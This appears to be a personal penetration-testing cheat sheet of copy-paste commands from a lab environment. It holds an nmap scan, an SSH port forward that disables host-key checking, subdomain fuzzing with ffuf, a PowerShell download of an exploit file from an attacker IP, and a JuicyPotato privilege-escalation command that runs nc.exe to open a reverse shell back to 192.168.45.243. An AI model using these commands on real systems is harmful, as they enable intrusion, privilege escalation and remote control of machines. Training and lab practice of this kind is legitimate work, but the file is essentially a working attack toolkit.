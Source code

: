# Reference

Quick Ctrl+C commands I find useful.

```
nmap -sC -sV -vv -Pn <MACHINE_IP> -oN file.nmap
```

Port forwarding from a remote ip(which here is 192.168.126.52) to my own.

```
sudo ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -N -L 0.0.0.0:80:0.0.0.0:80 student@192.168.126.52 -p 2222
```

Fuzzing subdomains.

```
ffuf -u http://<URL>/ -H "HOST: FUZZ.<URL>" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt 
```

```
$wc = New-Object System.Net.WebClient 
$wc.DownloadFile("http://192.168.45.238/exploit.txt","C:\Users\student\Downloads\exploit.txt") 
```

JuicyPotato Attack

```
juicypotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\Public\Documents\nc.exe -e cmd.exe 192.168.45.243 1234" -t *
```
